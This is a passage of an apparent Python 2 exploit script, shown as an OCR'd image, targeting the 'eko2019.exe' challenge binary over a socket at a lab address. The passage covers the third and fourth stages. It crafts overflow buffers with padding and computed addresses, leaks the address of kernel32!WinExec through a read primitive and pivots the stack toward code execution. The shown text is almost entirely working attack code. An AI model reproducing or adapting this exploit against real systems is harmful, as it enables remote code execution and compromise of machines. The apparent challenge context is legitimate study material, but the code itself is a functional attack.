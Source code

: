 ```python
exploit_3 += "\x41\x41\x41\x41\x41\x41\x41"
exploit_3 += struct.pack('<Q', base_address+0x9010)

# Message needs to be 528 bytes total
exploit_3 += "\x41" * (544-len(exploit_3))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.132", 54321))
s.sendall(exploit_3)

# Indexing the response to view RAX (VA of kernel32!WinExec)
receive_3 = s.recv(1024)
kernel32_unpack = struct.unpack_from('<Q', receive_3)
kernel32_winexec = kernel32_unpack[0]

print "[+] kernel32!WinExec is located at: {0}".format(hex(kernel32_winexec))

# Close the connection
s.close()

# 4th stage

# 16 total bytes
print "[+] Sending the fourth header..."
exploit_4 = "\x45\x6B\x6F\x32\x30\x31\x39\x00" + "\x90"*8

# 512 byte offset to the byte we control
exploit_4 += "\x41" * 512

# push rcx (which we control)
exploit_4 += "\x51"

# Padding to load eko2019.exe+0x158b
exploit_4 += "\x41\x41\x41\x41\x41\x41\x41"
exploit_4 += struct.pack('<Q', base_address+0x158b)

# Message needs to be 528 bytes total
exploit_4 += "\x41" * (544-len(exploit_4))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.132", 54321))
s.sendall(exploit_4)

print "[+] Pivoted to the stack!"

# Don't need to index any data back through our read primitive, as we just want to stack pivot here
# Receiving data back from a connection is always best practice
s.recv(1024)

# Close the connection
s.close()
```
